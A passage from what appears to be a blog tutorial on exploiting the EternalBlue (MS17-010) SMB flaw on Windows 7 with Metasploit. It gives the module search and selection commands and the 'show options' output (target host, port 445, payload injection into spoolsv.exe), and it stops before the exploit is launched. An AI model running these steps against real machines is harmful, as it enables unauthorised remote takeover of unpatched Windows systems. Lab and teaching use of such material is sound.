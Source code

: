 ![metasploit](http://blob.syang.io/web-images/Pictures/Blog/win7_05.png)

*(Starting Metasploit)*

Once Metasploit has started, we can check if there is an existing module to exploit
EternalBlue, or MS17-010. Use the following command to search in current modules:

```nonhighlight
search ms17-010
```

*(When this post was written, there was no such module in the official database.
So I had to find one on the Internet. But the EternalBlue module was added to 
the database later. Thus, you should be able to find it directly after running
msfupdate and this part was edited.)*

The search result is:

```nohighlight
Matching Modules
================

   Name                                      Disclosure Date  Rank    Description
   ----                                      ---------------  ----    -----------
   auxiliary/scanner/smb/smb_ms17_010                         normal  MS17-010 SMB RCE Detection
   exploit/windows/smb/ms17_010_eternalblue  2017-03-14       good    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```

The second result is the one we need. Run `info exploit/windows/smb/ms17_010_eternalblue`
to view detailed description.

To choose the module, run the "use" command:

```nohighlight
msf > use exploit/windows/smb/ms17_010_eternalblue 
msf exploit(ms17_010_eternalblue) > 
```

After choosing the module, use "show options" command:

```nohighlight
msf exploit(ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   GroomAllocations    12               yes       Initial number of times to groom the kernel pool.
   GroomDelta          5                yes       The amount to increase the groom count by per try.
   MaxExploitAttempts  3                yes       The number of times to retry the exploit.
   ProcessName         spoolsv.exe      yes       Process to inject payload into.
   RHOST                                yes       The target address
   RPORT               445              yes       The target port (TCP)
   VerifyArch          true             yes       Check if remote architecture matches exploit Target.
   VerifyTarget        true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
